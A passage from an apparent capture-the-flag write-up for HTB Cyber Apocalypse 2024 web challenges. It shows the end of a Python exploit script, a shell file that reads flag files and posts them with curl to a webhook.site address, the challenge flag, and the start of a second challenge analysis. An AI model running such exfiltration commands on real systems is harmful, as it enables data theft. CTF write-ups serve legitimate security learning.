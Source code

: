 ``` python
		return res

if __name__ == "__main__":
	run = Exploit()
	print(run.exp())
```

Content of the banua.sh file:

``` sh
cat /flag* > /tmp/flag.txt && curl -d @/tmp/flag.txt https://webhook.site/e361f2f5-cc9c-45e5-959e-40639c22efab
```

Run the exploit. If the request does not go through, try running it again:

![Labyrinth Linguist](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_labyrinth1.png)

**Flag**: HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}

**================================================================================================**

## **Testimonial - Web**

**Solving Scenario:**\
Source code analysis reveals that the vulnerable code is in the grpc.go file, specifically in the os.WriteFile function with the filename "customer" and the file content being "testimonial".

grpc.go file:
